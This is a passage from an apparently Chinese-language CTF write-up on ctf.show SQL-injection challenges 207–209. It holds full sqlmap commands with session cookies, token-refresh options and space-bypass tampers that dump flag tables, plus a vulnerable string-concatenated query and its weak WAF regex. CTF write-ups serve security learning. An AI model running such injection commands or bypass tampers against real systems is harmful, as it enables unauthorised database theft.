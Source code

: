 ```python

            elif payload[i] == '\'':
                # 取反quote的值
                quote = not quote

            elif payload[i] == '"':
                # 取反doublequote的值
                doublequote = not doublequote

            elif payload[i] == " " and not doublequote and not quote:
                retVal += chr(0x0a)
                continue

            retVal += payload[i]

    return retVal
```

其实这段代码的目的就是将payload中的空格替换成换行符

其实直接用sqlmap自带的sapce2comment模板

```
sqlmap -u "http://7bf5dfc3-3078-441f-b245-64dab6933839.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=btkhe9vojj5a7piadlc51ubifk;" --referer=ctf.show -D ctfshow_web --safe-url="http://7bf5dfc3-3078-441f-b245-64dab6933839.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=space2comment -T ctfshow_flaxca --dump
```



#### web208

同上一题

```
sqlmap -u "http://f287c31a-5cae-478d-af39-de7010c92def.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=3e08elobpci83dm5l8mn4hd18k;" --referer=ctf.show -D ctfshow_web --safe-url="http://f287c31a-5cae-478d-af39-de7010c92def.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=space2comment -T ctfshow_flaxcac --dump
```



#### web209

这题新增了点waf

```
查询语句

//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
      
返回逻辑

//对传入的参数进行了过滤
  function waf($str){
   //TODO 未完工
   return preg_match('/ |\*|\=/', $str);
  }
```

